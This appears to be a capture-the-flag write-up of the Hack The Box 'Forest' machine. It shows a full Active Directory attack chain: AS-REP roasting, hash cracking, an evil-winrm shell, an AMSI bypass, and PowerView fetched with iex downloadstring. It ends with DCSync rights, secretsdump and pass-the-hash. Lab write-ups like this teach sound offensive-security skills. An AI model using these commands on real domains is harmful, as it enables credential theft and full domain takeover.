 After running a basic `nmap` search, I see that `ldap` is running on port 389.

I run an `ldap` search to see what I find:

```
ldapsearch -h {target ip} 389 -x -s base -b ‘’ “(objectClass=*)” “*” +
```

I get the domain `htb.local`.

After probing several different paths via `smb`, and not getting in, I try `rpc` on port 445.

```
rpcclient -U "" -N {target ip}
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]       
user:[Guest] rid:[0x1f5]               
user:[krbtgt] rid:[0x1f6]              
user:[DefaultAccount] rid:[0x1f7]      
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```

I create a users list with the following users:

```
root@kali# cat users 
Administrator 
andy 
lucinda 
mark 
santi 
sebastien 
svc-alfresco

root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

...


[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f
```

I get the hash above for the user `svc-alfresco`.

I use hashcat to break the hash.

```
root@kali# hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force ...[snip]... $krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$ 5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004 d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice ...[snip]...
```


I use evil-winrm to connect and shell access to the attacking ip. 

```
$ evil-winrm -i 10.129.135.40 -u svc-alfresco -p s3rvice
```

From here I can move to the user `svc-alfresco`'s Desktop and get the user flag.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt e5e4e47a************************
```

To visualize our domain and users I want use the application `bloodhound`, 



Install bloodhound, then run bloodhound-python to enumerate the privilege escalation paths which downloads json files which will be mapped via bloodhound. Then run bloodhound.

```
$ sudo apt install bloodhound
$ bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local  -c all -ns {victim ip}
$ bloodhound
```

In the Bloodhound UI the credentials for `neo4j` is `neo4j:neo4j`, then click on `Upload Data`, adding those json files from earlier. In `Start Node` add `svc-alfresco` and in `Target Node` add `Domain Admins@HTB.LOCAL`, that gives us a map of the Active Directory.

Now I go back to the Windows shell and add a new user to `Exchange Windows Permissions`

```
PS C:\Users\svc-alfresco\Documents> net user john abc123! /add /domain
PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add

PS C:\Users\svc-alfresco\Documents> menu

PS C:\Users\svc-alfresco\Documents> Bypass-4MSI

PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://{target ip}/PowerView.ps1')

PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'abc123!' -asplain -force

PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)

PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

I can now run `secretsdump` as `john`, which gets the `admin`'s hash, then `psexec` with the new hash gets root access to the server. Then I print the root flag.

```
$ secretsdump.py htb/john@{victim ip}

....
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

$ psexec.py administrator@{victim ip} -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

$ type \users\administrator\desktop\root.txt
97949b4e094f030d9ac3b8608e02cfe1
```











